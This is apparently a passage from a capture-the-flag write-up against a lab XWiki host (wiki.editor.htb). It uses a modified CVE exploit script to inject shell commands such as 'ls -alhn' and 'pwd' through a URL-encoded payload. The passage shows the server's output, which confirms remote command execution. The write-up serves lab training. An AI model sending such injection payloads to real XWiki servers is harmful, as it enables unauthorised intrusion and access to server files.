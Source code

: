 ```python

        pprint(response.text)

    except requests.exceptions.ConnectionError:
        print("[✖] Connection failed. Target may be down.")
    except requests.exceptions.Timeout:
        print("[✖] Request timed out. Target is slow or unresponsive.")
    except requests.exceptions.RequestException as e:
        print(f"[✖] Unexpected error: {e}")


```

Using our modified CVE script, we can see the contents of directories and start sleuthing around to get a foothold.


```python
# Main execution
payload = urllib.parse.quote("'ls -alhn'")
exploit(f'wiki.{target}/xwiki', payload)
```

    [!] HTTPS not available, falling back to HTTP.
    [✔] Target supports HTTP: http://wiki.editor.htb/xwiki
    [+] Sending request to: ...
     'feed for search on [}}}total 72K<br/>drwxr-xr-x &nbsp;5 0 0 4.0K Jul 29 '
     '11:48 .<br/>drwxr-xr-x 91 0 0 4.0K Jul 29 11:55 ..<br/>drwxr-xr-x &nbsp;6 0 '
     '0 4.0K Jul 29 11:48 jetty<br/>lrwxrwxrwx &nbsp;1 0 0 &nbsp;&nbsp;14 Mar 27 '
     '&nbsp;2024 logs -&gt; /var/log/xwiki<br/>drwxr-xr-x &nbsp;2 0 0 4.0K Jul 29 '
     '11:48 start.d<br/>-rw-r<del>r</del> &nbsp;1 0 0 5.5K Mar 27 &nbsp;2024 '
     'start_xwiki.bat<br/>-rw-r<del>r</del> &nbsp;1 0 0 6.1K Mar 27 &nbsp;2024 '
     'start_xwiki_debug.bat<br/>-rw-r<del>r</del> &nbsp;1 0 0 &nbsp;11K Mar 27 '
     '&nbsp;2024 start_xwiki_debug.sh<br/>-rw-r<del>r</del> &nbsp;1 0 0 9.2K Mar '
     '27 &nbsp;2024 start_xwiki.sh<br/>-rw-r<del>r</del> &nbsp;1 0 0 2.5K Mar 27 '
     '&nbsp;2024 stop_xwiki.bat<br/>-rw-r<del>r</del> &nbsp;1 0 0 6.6K Mar 27 '
     '&nbsp;2024 stop_xwiki.sh<br/>drwxr-xr-x &nbsp;3 0 0 4.0K Jun 13 17:08 '
     'webapps]&lt;/title&gt;<br/>&nbsp;&nbsp;&nbsp;&nbsp;&lt;link&gt;<span '
     'class="wikiexternallink"><a class="wikimodel-freestanding" '



```python
payload = urllib.parse.quote("'pwd'")
exploit(f'wiki.{target}/xwiki', payload)
```

    [!] HTTPS not available, falling back to HTTP.
    [✔] Target supports HTTP: http://wiki.editor.htb/xwiki
    [+] Sending request to: ...
     'feed for search on '
     '[}}}/usr/lib/xwiki-jetty



```python
payload = urllib.parse.quote("'ls -alhn /usr/lib/xwiki-jetty/webapps/xwiki/WEB-INF/'")
exploit(f'wiki.{target}/xwiki', payload)
```
